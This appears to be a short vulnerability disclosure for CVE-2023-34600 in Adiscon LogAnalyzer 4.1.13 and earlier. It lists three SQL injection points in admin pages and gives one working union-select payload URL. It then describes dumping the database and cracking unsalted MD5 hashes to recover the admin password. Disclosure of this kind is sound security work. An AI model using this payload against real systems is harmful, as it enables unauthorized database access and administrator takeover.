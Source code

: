 # Adiscon
2023-34600

[Vendor of Product]
Adiscon
------------------------------------------ 
[Affected Product Code Base]
Adiscon LogAnalyzer - V4.1.13(latest) and before
------------------------------------------

Screen:
![image](https://github.com/costacoco/Adiscon/assets/48556345/58aa7a9e-932d-42a0-a1ad-9aec887f209f)

We found three SQL Injection point
/admin/searches.php (need Read-only user or admin)
/admin/users.php (need admin)
/admin/groups.php (need admin)

screen of SQL injection
http://{ip}/loganalyzer/admin/searches.php?op=edit&id=-8%20union%20all%20select%201,user(),@@version,4,5--
![image](https://github.com/costacoco/Adiscon/assets/48556345/930ac46a-e88f-4366-8ee9-54a2a9d95bbc)

screen of db dump
![image](https://github.com/costacoco/Adiscon/assets/48556345/98862081-ff0c-4a2e-87d9-87b18afa6228)
![image](https://github.com/costacoco/Adiscon/assets/48556345/e94afe1b-4e2d-4d72-81b2-d37d39f7ba55)
![image](https://github.com/costacoco/Adiscon/assets/48556345/facf564a-ff4a-498d-91f8-83e494d0428e)

Because it used basic md5 hash, so we can try to dehash it

screen of dehash
![image](https://github.com/costacoco/Adiscon/assets/48556345/5f8e3296-8bb5-4088-bedf-9a20b4af0760)

Then, we got the admin  password


[Reference]
https://loganalyzer.adiscon.com/

------------------------------------------

